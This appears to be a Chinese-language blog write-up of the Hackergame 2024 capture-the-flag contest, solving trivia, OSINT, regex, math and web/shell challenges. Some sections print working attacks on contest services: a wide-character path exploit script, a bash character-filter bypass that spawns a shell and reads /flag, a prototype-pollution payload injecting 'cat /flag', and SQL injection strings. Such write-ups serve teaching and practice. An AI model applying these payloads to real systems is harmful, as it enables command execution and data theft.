本题解也将同步于我的[个人博客](https://blog.fyz666.xyz/blog/12095/)

## 签到

```raw
Hackergame～🚩🎶哦Hackergame～🚩🎶哦Hackergame🚩🎶
有了你😙❤️🚩，生活美好😍🙏💐，没烦恼🤷🤤🎼
Hackergame传奇🌊🚩🧜‍♂️，奇妙至极✨🧞‍♂️
最棒比赛🤩👾🎮，人人赞叹你👍👍👍
如果卡关😖😭，那可不对🙅⭕️😝
今晚没拿flag🚩😨❓，我就会吼叫😱😱🙉
无论白天☀️🤤🚩，还是黑夜🌙😪💤
Hackergame的挑战让头脑清醒🤯🤯
```

直接提交，把参数`?pass=false`改成`?pass=true`重新访问即可。

~~这歌真洗脑，每天听几遍~~

## 喜欢做签到的 CTFer 你们好呀

众所周知，中国科学技术大学校内CTF战队是Nebula，招新主页位于https://www.nebuu.la/

打开发现是个网页模拟的终端，找了半天发现`ls -a`可以找到第二个flag，`env`可以找到第一个flag。(第一个flag找了半天，因为一开始完全没想到去看环境变量)

## 猫咪问答（Hackergame 十周年纪念版）

1. 这题找了半天，因为那一年的Hackergame好像没写新闻稿，甚至似乎还不叫Hackergame，叫什么「信息安全大赛」，最后在[这个页面](https://lug.ustc.edu.cn/wiki/sec/contest.html)翻到了结果，答案为3A204

2. 翻官方GitHub存档发现是2019年（注意只需要看2019-2023年这5年的题），然后搜到[网页](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)，答案为2682

3. 搜图书馆官网没有搜到相关信息（图书馆怎么可能去记录这种东西），然后想到去GitHub上的2018年题解存档的[花絮页](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)看看，发现了答案：程序员的自我修养

4. 搜到[相关论文](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)，~~把里面出现到的数字都试了一遍~~，然后找到答案：336

5. 前段时间正好关注了这个事件，当时就找到了[相关的commit](https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2)，于是这题不废催飞滋力

6. 找到了这个模型的hg页面，结果：

   蚌！后来找了一个[在线运行分词器的网页](https://huggingface.co/spaces/Xenova/the-tokenizer-playground)。复制进去得到1834，提交发现不对，遂去穷举，得到答案1833。原来是之前复制进去最开始多了换行。

## 打不开的盒

找到一个在线查看这种文件的[网页](https://www.viewstl.com/classic/)。

然后逐个尝试右边的选项，最后发现把`Display`下面的`Wireframe`选上，即可发现flag：


放大以后可以直接肉眼看出。

另：如果奖品能附带发个这个盒子的透明版，那一定是极好的。

## 每日论文太多了！

给了一个[ACM论文的链接](https://dl.acm.org/doi/10.1145/3650212.3652145)，然后没有其他任何附件了？

我百思不解，总不可能在ACM官网上做文章吧。于是我打开论文，去了解了一下这个论文的算法，找到了他给的源码GitHub链接。我甚至把这个项目跑了起来，但始终想不通这和拿flag有什么关系。

---

后来这个题解出的人越来越多，我意识到自己的方向出了问题。我打开论文直接搜索flag，居然搜到了一处高亮：



然而看上去又什么都没有，复制一下这里的内容，发现是“flag here”，难道flag藏在图里？

于是我把这篇论文的pdf的图片全部导出，然后发现：


草，这是什么行为艺术？

## 比大小王

这题估计灵感来源于前段时间很火的[大学生入侵小猿搜题事件](https://app.xinhuanet.com/news/article.html?articleId=d8b06038c4cf4dd3e32c5fc653f3419c)

咦，这不是写脚本就行了？一开始我写了个JS脚本，试图在浏览器里直接给他过了，结果发现题目的刷新似乎存在延迟，我无论如何都没法在10秒内跑完全部题目。遂分析了一下接口，然后写了个Python脚本：

```python
import json
import time
import requests

sess = requests.session()

headers = {
    'content-type': 'application/json',
    'cookie': 'Your cookie here'
}
game = sess.post('http://202.38.93.141:12122/game', data=json.dumps({}), headers=headers).json()['values']

data = {'inputs': []}
for a, b in game:
    if a < b:
        data['inputs'].append('<')
    else:
        data['inputs'].append('>')

time.sleep(5)
headers['cookie'] = f'session={sess.cookies["session"]}'
r = sess.post('http://202.38.93.141:12122/submit', data=json.dumps(data), headers=headers)
print(r.json())

```

稍微处理了一下`Cookie`就过了。

## 旅行照片 4.0

### LEO_CHAN?

**问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：**`X校区Y门`**，均为一个汉字）**

科大学生直接秒答。东校区西门

**问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：**`YYYYMMDD`**）**

搜到[网页](https://www.bilibili.com/opus/930934582351495204)，得到答案为20240519。

### FULL_RECALL

**问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）**

这题直接搜图似乎是真搜不到什么东西，不过我一下就注意到了垃圾桶上的“六安园林”四个字，一开始以为这就是公园名（忘了placeholder上的内容）。

然后我注意到路上有一条彩虹线条，遂搜索：六安 彩虹跑道。搜到[网页](https://www.sohu.com/a/498872898_100023473)，对比了一下三种颜色的排列，发现应该是对的，得到答案为：中央公园。

问题 4: 这个景观所在的景点的名字是？（三个汉字）

直接搜图即可，搜到三峡截流石，再顺着这个线索一通搜索三个字的景区，搜到：坛子岭。

### OMINOUS_BELL

**问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）**

没看题目提示，直接注意到左下角的那个车的车身带粉色刷漆，搜索“动车 粉色”，直接搜到[网页](https://www.sohu.com/a/823020940_121117452)，于是先出下一问答案：CRH6F-A

然后搜了一下这班列车的经停站：


好像也不多？手动一个一个试过来，发现清河站附近的一个医院：积水潭医院，符合要求。

**问题 6: 左下角的****动车组型号****是？**

如上：CRH6F-A

---

## 不宽的宽字符

题目源码如下：

```cpp
#include <iostream>
#include <fstream>
#include <cctype>
#include <string>
#include <windows.h>

int main()
{
    std::wcout << L"Enter filename. I'll append 'you_cant_get_the_flag' to it:" << std::endl;

    // Get the console input and output handles
    HANDLE hConsoleInput = GetStdHandle(STD_INPUT_HANDLE);
    HANDLE hConsoleOutput = GetStdHandle(STD_OUTPUT_HANDLE);

    if (hConsoleInput == INVALID_HANDLE_VALUE || hConsoleOutput == INVALID_HANDLE_VALUE)
    {
        // Handle error – we can't get input/output handles.
        return 1;
    }

    DWORD mode;
    GetConsoleMode(hConsoleInput, &mode);
    SetConsoleMode(hConsoleInput, mode | ENABLE_PROCESSED_INPUT);

    // Buffer to store the wide character input
    char inputBuffer[256] = { 0 };
    DWORD charsRead = 0;

    // Read the console input (wide characters)
    if (!ReadFile(hConsoleInput, inputBuffer, sizeof(inputBuffer), &charsRead, nullptr))
    {
        // Handle read error
        return 2;
    }

    // Remove the newline character at the end of the input
    if (charsRead > 0 && inputBuffer[charsRead - 1] == L'\n')
    {
        inputBuffer[charsRead - 1] = L'\0'; // Null-terminate the string
        charsRead--;
    }

    // Convert to WIDE chars
    wchar_t buf[256] = { 0 };
    MultiByteToWideChar(CP_UTF8, 0, inputBuffer, -1, buf, sizeof(buf) / sizeof(wchar_t));

    std::wstring filename = buf;

    // Haha!
    filename += L"you_cant_get_the_flag";

    std::wifstream file;
    file.open((char*)filename.c_str());

    if (file.is_open() == false)
    {
        std::wcout << L"Failed to open the file!" << std::endl;
        return 3;
    }

    std::wstring flag;
    std::getline(file, flag);

    std::wcout << L"The flag is: " << flag << L". Congratulations!" << std::endl;

    return 0;
}
```

不是很看得懂一些函数是在干什么，但通过拷问GPT，以及查找各种文档，发现其实所谓的“宽字符”就是把相邻两个普通字符的ascii码分为低位和高位拼在一起，作为一整个字符处理。而反过来把宽字符转为普通字符的时候则是做相反操作，并且C语言的`char*`是检测到`\x0`就直接截断了。

那么小A在后面拼的这一串`you_cant_get_the_flag`起到了什么作用呢？我反正没看出来。

于是写出脚本：

```python
from pwn import remote

ascii_bytes = [
    0x5A,  # 'Z'
    0x3A,  # ':'
    0x2f,  # '/'
    0x2f,  # '/'
    0x74,  # 't'
    0x68,  # 'h'
    0x65,  # 'e'
    0x66,  # 'f'
    0x6C,  # 'l'
    0x61,  # 'a'
    0x67   # 'g'
]

wchar_values = []
for i in range(0, len(ascii_bytes), 2):
    low_byte = ascii_bytes[i]
    high_byte = ascii_bytes[i+1] if i+1 < len(ascii_bytes) else 0x00
    wchar = (high_byte << 8) + low_byte
    wchar_values.append(wchar)

payload = ''.join(chr(wchar) for wchar in wchar_values).encode()
r = remote('202.38.93.141', 14202)
r.sendlineafter(b'token: \n', b'TOKEN')
r.sendlineafter(b"I'll append 'you_cant_get_the_flag' to it:\r\n", payload)
print(r.recv())

```

一开始试了`Z:\theflag`，然而没过，然后把反斜杠换成了两个正斜杠就过了。

所以这题小A到底试了什么文件名可以「测试过无误」的？

---

## PowerfulShell

很有意思的题，但我平时写`bash`写少了，对它的很多特性不太了解，因此卡到了第四天才解出这题。

源码如下：

```bash
#!/bin/bash

FORBIDDEN_CHARS="'\";,.%^*?!@#%^&()><\/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"

PowerfulShell() {
    while true; do
        echo -n 'PowerfulShell@hackergame> '
        if ! read input; then
            echo "EOF detected, exiting..."
            break
        fi
        if [[ $input =~ [$FORBIDDEN_CHARS] ]]; then
            echo "Not Powerful Enough :)"
            exit
        else
            eval $input
        fi
    done
}

PowerfulShell
```

在看源码之前我一直以为这是个`Powershell`题，比起`bash`，`Powershell`我就更不会了，因此我前两天根本没看这题。

然后我发现是个`bash`，那似乎还能做一下。

发现这题就是把很多字符都ban了，需要我们用仅剩的几个字符去运行起来`cat /flag`。

我一开始搜“execute bash without letters”，搜到了这个网页：https://www.reddit.com/r/hacking/comments/1bdjg9z/linux_shell_escape_execute_commands_without/

发现楼主似乎在骗picoCTF的思路，笑死。



楼主表示可以用下面这个字符串代替命令`ls`

```bash
$'\154'$'\163'
```

不过我们的题目ban了单引号，所以这个方法走不通。

然后我查了一下这个picoCTF的题，发现和我们这个题还是有点区别，限制的字符少了许多。

最后我开始翻`bash`特殊指令的文档（话说不应该一开始就这么做吗），发现`bash`可以用美元符号、花括号、冒号实现字符串切片，格式大概是这样：

```bash
${s:start:length}
```


而很巧的是，这些符号都没被ban，然后我试了一下没被ban的另一个很有用的符号：`~`，发现它的输出是：`/players`



那就有思路了！由于下划线可以随便用，我们相当于拥有了定义变量的能力，于是可以先把`~`的输出结果存到双下划线变量里：

```bash
__=~
```

然后`__`这个变量就等于了`/players`，通过对这个变量的切片，我们可以得到命令`ls`：

```bash
${__:2:1}${__:7:1}
```

执行一下命令发现当前路径下有且只有一个文件：



注意到这个输出有一个英文句号，我一开始还想着用`ls`去看看上级目录有啥，但转念一想，直接取最后两个字符，这不就直接拿到shell了，还费别的啥劲？于是：

```bash
__=`${__:2:1}${__:7:1}`
${__:14:2}
```

这样就绕过了字符限制，直接`cat /flag`即可：



## Node.js is Web Scale

给了服务端源码：

```js
// server.js
const express = require("express");
const bodyParser = require("body-parser");
const path = require("path");
const { execSync } = require("child_process");

const app = express();
app.use(bodyParser.json());
app.use(express.static(path.join(__dirname, "public")));

let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

let store = {};

// GET /api/store - Retrieve the current KV store
app.get("/api/store", (req, res) => {
  res.json(store);
});

// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});

// GET /get - Get a key-value pair in the store
app.get("/get", (req, res) => {
  const key = req.query.key;
  const keys = key.split(".");

  let current = store;
  for (let i = 0; i < keys.length; i++) {
    const key = keys[i];
    if (current[key] === undefined) {
      res.json({ message: "Not exists." });
      return;
    }
    current = current[key];
  }

  res.json({ message: current });
});

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});

app.get("*", (req, res) => {
  res.sendFile(path.join(__dirname, "public", "index.html"));
});

// Start the server
const PORT = 3000;
app.listen(PORT, () => {
  console.log(`KV Service is running on port ${PORT}`);
});
```

发现`cmds`里有一些命令，但显然没有`cat /flag`，而我们又只能通过`execute`接口去执行命令，那要怎么办呢？

注意到我们可以用`set`接口为`current`这个变量设定键值对，而`JavaScript`当中，通过点运算可以获取到的attribute，也可以通过中括号运算获取，赋值也是同理，这样想法就很自然了，这是一个ProtoType污染攻击。

我们直接set：

```json
{
    "key": "__proto__.catflag",
    "value": "cat /flag"
}
```

然后`execute?cmd=catflag`，即可获取flag。

## PaoluGPT

### 千里挑一

打开网页，发现有一堆聊天记录（999个），~~直接一个一个手动点开~~ 写个爬虫很快就找到了第一个flag。

### 窥视未知

那么第二个flag会在哪里呢？根据小题名“窥视未知”，感觉这个没找到的flag像是藏在什么未知的地方（什么废话文学）

我看了好久题目，发现居然这题还有个附件可以下载。。。火速下载下来，发现一个函数：

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

这里的SQL语句居然是直接字符串拼接来的，那么自然可以SQL注入，然后注意到：

```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)
```

看来还有`shown = false`的对话，于是我们只要构造`conversation_id`：

```raw
1' OR shown = false--
```

即可找到flag2。

那么用同样的方法也可以找到flag1：

```raw
1' OR contents LIKE '%flag%'--
```

## 强大的正则表达式

要写三个正则表达式完成三种不同的计算，限制字符为`0123456789()|*`

### Easy

计算10进制下对16的取模，要求取模为0时匹配成功。

这就是个送分题，我们知道10进制下一个数是否为16的倍数可以根据其最后四位数字来判断。

于是只要遍历一下最后四位数字，再把前面的一拼就行了：

```python
s = '(0|1|2|3|4|5|6|7|8|9)*('
for i in range(10000 // 16):
    s += f'{i * 16:04}|'
s = s[:-1] + ')'
```

### Medium

计算2进制下对13的取模，要求取模为0时匹配成功。

这我就不会了，虽然知道是要去构造有限状态自动机，但其实我一直都不会这个玩意，也有点懒得学（赛后一定补上）

不过好在我找到一个老哥GitHub上写的一个函数：[Regular Expression for Binary Numbers Divisible by n](https://github.com/NIaa/codewars/tree/master/Solutions/1_kyu/Regular%20Expression%20for%20Binary%20Numbers%20Divisible%20by%20n)

这不是完美契合这个题？于是运行了一下，把`+`换成了`*`，嫖到flag。

### Hard

搜不到一点，赛后一定恶补有限状态自动机。

## 惜字如金 3.0

三个题分别要求还原三个惜字如金化处理后的文件。

### 题目 A

```python
#!/usr/bin/python3                                                              
                                                                                
import atexit, bas64, flask, itertools, os, r                                 
                                                                                
                                                                                
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'AaaaaaAaaaAAaaaaAAAAaaaAAAaAaAAAAaAAAaaAaaAaaAaaA', 48 
    asert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'A' 
    flip = sum(['a', 'A'].index(poly[i + 1]) << i for i in rang(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in rang(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 els 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xCb4EcdfD0A9F, 0xa9dec1C1b7A3, 0x60c4B0aAB4Bf                 
    asert (u2, u1, u0) == (223539323800223, 186774198532003, 106397893833919)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'litl')                                   
                                                                                
                                                                                
def xzrj(input: bytes) -> bytes:                                                
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'                 
    return r.sub(pat, repl, input, flags=r.IGNORECAS)                        
                                                                                
                                                                                
paths: list[bytes] = []                                                         
                                                                                
xzrj_bytes: bytes = bytes()                                                     
                                                                                
with open(__fil__, 'rb') as f:                                                 
    for row in f.read().splitlines():                                           
        row = (row.rstrip() + b' ' * 80)[:80]                                   
        path = bas64.b85encod(hash(row)) + b'.txt'                            
        with open(path, 'wb') as pf:                                            
            pf.writ(row)                                                       
            paths.apend(path)                                                  
            xzrj_bytes += xzrj(row) + b'\r\n'                                   
                                                                                
    def clean():                                                                
        for path in paths:                                                      
            try:                                                                
                os.remov(path)                                                 
            except FileNotFoundEror:                                           
                pas                                                            
                                                                                
    atexit.register(clean)                                                      
                                                                                
                                                                                
bp: flask.Blueprint = flask.Blueprint('answer_a', __nam__)                     
                                                                                
                                                                                
@bp.get('/answer_a.py')                                                         
def get() -> flask.Respons:                                                    
    return flask.Respons(xzrj_bytes, content_typ='text/plain; charset=UTF-8') 
                                                                                
                                                                                
@bp.post('/answer_a.py')                                                        
def post() -> flask.Respons:                                                   
    wrong_hints = {}                                                            
    req_lines = flask.request.get_data().splitlines()                           
    iter = enumerat(itertools.zip_longest(paths, req_lines), start=1)          
    for index, (path, req_row) in iter:                                         
        if path is Non:                                                        
            wrong_hints[index] = 'Too many lines for request data'              
            break                                                               
        if req_row is Non:                                                     
            wrong_hints[index] = 'Too few lines for request data'               
            continue                                                            
        req_row_hash = hash(req_row)                                            
        req_row_path = bas64.b85encod(req_row_hash) + b'.txt'                 
        if not os.path.exists(req_row_path):                                    
            wrong_hints[index] = f'Unmatched hash ({req_row_hash.hex()})'       
            continue                                                            
        with open(req_row_path, 'rb') as pf:                                    
            row = pf.read()                                                     
            if len(req_row) != len(row):                                        
                wrong_hints[index] = f'Unmatched length ({len(req_row)})'       
                continue                                                        
            unmatched = [req_b for b, req_b in zip(row, req_row) if b != req_b] 
            if unmatched:                                                       
                wrong_hints[index] = f'Unmatched data (0x{unmatched[-1]:02X})'  
                continue                                                        
            if path != req_row_path:                                            
                wrong_hints[index] = f'Matched but in other lines'              
                continue                                                        
    if wrong_hints:                                                             
        return {'wrong_hints': wrong_hints}, 400                                
    with open('answer_a.txt', 'rb') as af:                                      
        answer_flag = bas64.b85decod(af.read()).decod()                      
        closing, opening = answer_flag[-1:], answer_flag[:5]                    
        asert closing == '}' and opening == 'flag{'                            
        return {'answer_flag': answer_flag}, 200                                
```

送分，随便一补就好了。

### 题目 B

```python
#!/usr/bin/python3                                                              
                                                                                
import atexit, bas64, flask, itertools, os, r                                 
                                                                                
                                                                                
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'B', 48 
    asert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B' 
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in rang(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in rang(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 els 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd                 
    asert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'litl')                                   
                                                                                
                                                                                
def xzrj(input: bytes) -> bytes:                                                
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'                 
    return r.sub(pat, repl, input, flags=r.IGNORECAS)                        
                                                                                
                                                                                
paths: list[bytes] = []                                                         
                                                                                
xzrj_bytes: bytes = bytes()                                                     
                                                                                
with open(__fil__, 'rb') as f:                                                 
    for row in f.read().splitlines():                                           
        row = (row.rstrip() + b' ' * 80)[:80]                                   
        path = bas64.b85encod(hash(row)) + b'.txt'                            
        with open(path, 'wb') as pf:                                            
            pf.writ(row)                                                       
            paths.apend(path)                                                  
            xzrj_bytes += xzrj(row) + b'\r\n'                                   
                                                                                
    def clean():                                                                
        for path in paths:                                                      
            try:                                                                
                os.remov(path)                                                 
            except FileNotFoundEror:                                           
                pas                                                            
                                                                                
    atexit.register(clean)                                                      
                                                                                
                                                                                
bp: flask.Blueprint = flask.Blueprint('answer_b', __nam__)                     
                                                                                
                                                                                
@bp.get('/answer_b.py')                                                         
def get() -> flask.Respons:                                                    
    return flask.Respons(xzrj_bytes, content_typ='text/plain; charset=UTF-8') 
                                                                                
                                                                                
@bp.post('/answer_b.py')                                                        
def post() -> flask.Respons:                                                   
    wrong_hints = {}                                                            
    req_lines = flask.request.get_data().splitlines()                           
    iter = enumerat(itertools.zip_longest(paths, req_lines), start=1)          
    for index, (path, req_row) in iter:                                         
        if path is Non:                                                        
            wrong_hints[index] = 'Too many lines for request data'              
            break                                                               
        if req_row is Non:                                                     
            wrong_hints[index] = 'Too few lines for request data'               
            continue                                                            
        req_row_hash = hash(req_row)                                            
        req_row_path = bas64.b85encod(req_row_hash) + b'.txt'                 
        if not os.path.exists(req_row_path):                                    
            wrong_hints[index] = f'Unmatched hash ({req_row_hash.hex()})'       
            continue                                                            
        with open(req_row_path, 'rb') as pf:                                    
            row = pf.read()                                                     
            if len(req_row) != len(row):                                        
                wrong_hints[index] = f'Unmatched length ({len(req_row)})'       
                continue                                                        
            unmatched = [req_b for b, req_b in zip(row, req_row) if b != req_b] 
            if unmatched:                                                       
                wrong_hints[index] = f'Unmatched data (0x{unmatched[-1]:02X})'  
                continue                                                        
            if path != req_row_path:                                            
                wrong_hints[index] = f'Matched but in other lines'              
                continue                                                        
    if wrong_hints:                                                             
        return {'wrong_hints': wrong_hints}, 400                                
    with open('answer_b.txt', 'rb') as af:                                      
        answer_flag = bas64.b85decod(af.read()).decod()                      
        closing, opening = answer_flag[-1:], answer_flag[:5]                    
        asert closing == '}' and opening == 'flag{'                            
        return {'answer_flag': answer_flag}, 200                                
```

要我们补`crc`函数中的`poly`，直接穷举的话有 2 **47 = 140737488355328个组合，肯定跑不完。

但我发现，如果修改`poly`靠后位置的字符，好像对hash值的影响不会太大：

```python
print(hash('B' + 'B' * 47 + 'B', b'\xfe').hex())
for _ in range(20):
    print(hash('B' + 'B' * 15 + ''.join(random.choices('Bb', k=32)) + 'B', b'\xfe').hex())
```

于是我就15位15位的猜（穷举 2 ** 15 = 32768 次还是可行的）。

最开始匹配hash值的前2个字符，找出所有可行的解。存下来以后继续猜中间的15位，（第二次匹配hash的前6个字符，如果找出来可行解太多就再多增加一位），最后得出128个可行解。通过这最后的128个可行解，去穷举最后的17个字符，大概算了3、4分钟得到了最终符合条件的`poly`。

这里代码太乱了就不贴完整版了，猜前15位的代码大概是这样：

```python
s = b"\x01"
prefix = ['']
possible = []
for p in tqdm.tqdm(prefix):
    for comb in product('Bb', repeat=15):
        for _ in range(20):
            poly = 'B' + p + ''.join(comb) + 'B'
            h = hash(poly, s).hex()
            if not h.startswith('e3'):
                break
		else:
            possible.append(p + ''.join(comb))
```

### 题目 C

Hash那行想了一下，似乎没什么办法去补，赛后看看题解提升一下注意力。

## 优雅的不等式

知乎常驻用户直接注意到了这篇文章：[【科普】如何优雅地“注意到”关于e、π的不等式](https://zhuanlan.zhihu.com/p/669285539)

结合这题的端口号基本可以笃定这就是最终预期解法了。


### Easy

$p=8, q=3$，这是一个非常松的放缩，随便找一个积分手解就能算出来，我采用了下面这个积分：
$$
\int_0^1\frac{x^2(1-x)^2(a+bx+cx^2)}{1+x^2}dx
$$

$$
\left\lbrace\begin{aligned}
&-\frac{b}{2}=1\\
&a-c=0\\
&-\frac{2}{3}a+\frac{19}{12}b+\frac{7}{10}c=-\frac{8}{3}
\end{aligned}\right.
$$

求出$a,b,c$即可。

### Hard

这部分后期的不等式会非常的紧，而我们输入的长度有限制，故必须足够优雅。注意到上面那篇知乎后面还讨论了“分母升幂扩大收敛半径”，给了一个新的链接：[构造积分数值比较的收敛性](https://zhuanlan.zhihu.com/p/670472865)

点进这个链接，一个软件的截图出现在屏幕上：

